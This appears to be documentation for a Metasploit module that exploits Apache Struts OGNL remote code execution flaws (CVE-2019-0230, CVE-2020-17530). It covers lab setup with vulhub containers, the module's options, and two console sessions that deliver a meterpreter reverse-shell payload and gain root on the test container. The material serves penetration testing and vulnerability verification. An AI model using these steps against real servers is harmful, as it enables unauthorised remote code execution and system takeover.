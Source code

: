 ## Vulnerable Application
The Apache Struts framework, when forced, performs double evaluation of attributes' values assigned to certain tags
attributes such as `id`. It is therefore possible to pass in a value to Structs that will be evaluated again
when a tag's attributes are rendered. With a carefully crafted request, this can lead to Remote Code Execution (RCE).

This vulnerability is application dependant. A server side template must make use of the data sent in an attacker's
request to render a HTML tag attribute in order to be vulnerable.

Vulnerable versions of Apache Struts for both CVEs are provided by [vulhub][1] on GitHub. The setup instructions are identical
for both CVEs, just use the provided files in the correct directory.

1. Use `git` to clone `https://github.com/vulhub/vulhub.git`.
1. Change the current working directory to the one corresponding to the CVE that should be tested. For CVE-2019-0230, use
  `struts2/s2-059` and for CVE-2020-17530, use `struts2/s2-061`.
1. From within the directory, run `docker-compose up -d`
1. (OPTIONAL) Run `docker-compose exec struts2 bash` to obtain an interactive shell within the container. This is useful
  for debugging purposes.

* CVE-2019-0230 was patched in 2.5.20
* CVE-2020-17530 was patched in 2.5.26

### Example Setting Up CVE-2020-17530 / S2-061

```
[smcintyre@localhost ~]$ git clone https://github.com/vulhub/vulhub.git
Cloning into 'vulhub'...
remote: Enumerating objects: 234, done.
remote: Counting objects: 100% (234/234), done.
remote: Compressing objects: 100% (141/141), done.
remote: Total 10171 (delta 86), reused 191 (delta 69), pack-reused 9937
Receiving objects: 100% (10171/10171), 130.98 MiB | 8.36 MiB/s, done.
Resolving deltas: 100% (4014/4014), done.
[smcintyre@localhost ~]$ cd vulhub/struts2/s2-061
[smcintyre@localhost s2-061]$ docker-compose up -d
Creating network "s2-061_default" with the default driver
Pulling struts2 (vulhub/struts2:2.5.25)...
2.5.25: Pulling from vulhub/struts2
756975cb9c7e: Pull complete
d77915b4e630: Pull complete
5f37a0a41b6b: Pull complete
96b2c1e36db5: Pull complete
27a2d52b526e: Pull complete
93a36defce60: Pull complete
9e2014d79b30: Pull complete
ac71d4ce2ce4: Pull complete
a2f817e4badf: Pull complete
62ac51b7362f: Pull complete
e12f6705ebbe: Pull complete
4f4fb700ef54: Pull complete
97ba98138d72: Pull complete
Digest: sha256:eaf49b95f2c178cca77d3c8454f79a4fe4ed4dd9d342c9e9a911e842565217d2
Status: Downloaded newer image for vulhub/struts2:2.5.25
Creating s2-061_struts2_1 ... done
[smcintyre@localhost s2-061]$ docker-compose exec struts2 bash
root@d37b5ab61b87:/usr/src#
```

## Verification Steps

1. Install the vulnerable application, see the "Vulnerable Application" section.
1. Start `msfconsole`
1. Do: `use exploit/multi/http/struts2_multi_eval_ognl`
1. Set `RHOSTS` to the address of the target(s) to exploit.
1. Set `CVE` to the ID of the CVE you wish to run against the target: either `CVE-2020-17530` or `CVE-2019-0230`.
1. Do: `run`

## Options

### NAME
The HTTP query parameter or form data name. This option is closely related to the vulnerability and will likely be
application specific in real world environments. This must be the name of a parameter sent through either a GET or POST
request to the application that is reflected back as an HTML attribute. The module's `check` method will utilize this
value to determine if it can be used to evaluate OGNL expressions.

### CVE
The CVE to try exploit on `RHOSTS`, either `CVE-2020-17530` or `CVE-2019-0230`.

### TARGETURI
The base path to a valid Structs application on the target machine or machines.

## Scenarios

### CVE-2020-17530 From Vulhub

```
msf6 > use exploit/multi/http/struts2_multi_eval_ognl
[*] No payload configured, defaulting to cmd/unix/reverse_netcat
msf6 exploit(multi/http/struts2_multi_eval_ognl) > set RHOSTS 192.168.159.128
RHOSTS => 192.168.159.128
msf6 exploit(multi/http/struts2_multi_eval_ognl) > set TARGET Linux\ Dropper
TARGET => Linux Dropper
msf6 exploit(multi/http/struts2_multi_eval_ognl) > set PAYLOAD linux/x64/meterpreter/reverse_tcp
PAYLOAD => linux/x64/meterpreter/reverse_tcp
msf6 exploit(multi/http/struts2_multi_eval_ognl) > set LHOST 192.168.159.128
LHOST => 192.168.159.128
msf6 exploit(multi/http/struts2_multi_eval_ognl) > check
[*] 192.168.159.128:8080 - The target appears to be vulnerable.
msf6 exploit(multi/http/struts2_multi_eval_ognl) > exploit

[*] Started reverse TCP handler on 192.168.159.128:4444
[*] Executing automatic check (disable AutoCheck to override)
[+] The target appears to be vulnerable.
[*] Executing Linux Dropper for linux/x64/meterpreter/reverse_tcp using CVE-2020-17530
[*] Command Stager progress -  44.15% done (362/820 bytes)
[*] Sending stage (3008420 bytes) to 172.18.0.2
[*] Meterpreter session 1 opened (192.168.159.128:4444 -> 172.18.0.2:46770) at 2020-12-15 19:43:28 -0500
[*] Command Stager progress - 100.00% done (820/820 bytes)

meterpreter > getuid
Server username: root @ d37b5ab61b87 (uid=0, gid=0, euid=0, egid=0)
meterpreter > sysinfo
Computer     : 172.18.0.2
OS           : Debian 10.6 (Linux 5.9.11-100.fc32.x86_64)
Architecture : x64
BuildTuple   : x86_64-linux-musl
Meterpreter  : x64/linux
meterpreter >
```

### CVE-2019-0230 From Vulhub

```
msf6 > use exploit/multi/http/struts2_multi_eval_ognl
[*] No payload configured, defaulting to cmd/unix/reverse_netcat
msf6 exploit(multi/http/struts2_multi_eval_ognl) > set RHOSTS 192.168.159.128
RHOSTS => 192.168.159.128
msf6 exploit(multi/http/struts2_multi_eval_ognl) > set CVE CVE-2019-0230
CVE => CVE-2019-0230
msf6 exploit(multi/http/struts2_multi_eval_ognl) > set TARGET Linux\ Dropper
TARGET => Linux Dropper
msf6 exploit(multi/http/struts2_multi_eval_ognl) > set LHOST 192.168.159.128
LHOST => 192.168.159.128
msf6 exploit(multi/http/struts2_multi_eval_ognl) > check
[*] 192.168.159.128:8080 - The target appears to be vulnerable.
msf6 exploit(multi/http/struts2_multi_eval_ognl) > exploit

[*] Started reverse TCP handler on 192.168.159.128:4444
[*] Executing automatic check (disable AutoCheck to override)
[+] The target appears to be vulnerable.
[*] Executing Linux Dropper for linux/x64/meterpreter/reverse_tcp using CVE-2019-0230
[*] Command Stager progress -  44.15% done (362/820 bytes)
[*] Sending stage (3008420 bytes) to 172.19.0.2
[*] Command Stager progress - 100.00% done (820/820 bytes)
[*] Meterpreter session 1 opened (192.168.159.128:4444 -> 172.19.0.2:47884) at 2020-12-15 19:47:10 -0500

meterpreter > getuid
Server username: root @ 91f7855f1eda (uid=0, gid=0, euid=0, egid=0)
meterpreter > sysinfo
Computer     : 172.19.0.2
OS           : Debian 10.5 (Linux 5.9.11-100.fc32.x86_64)
Architecture : x64
BuildTuple   : x86_64-linux-musl
Meterpreter  : x64/linux
meterpreter >
```

[1]: https://github.com/vulhub/vulhub
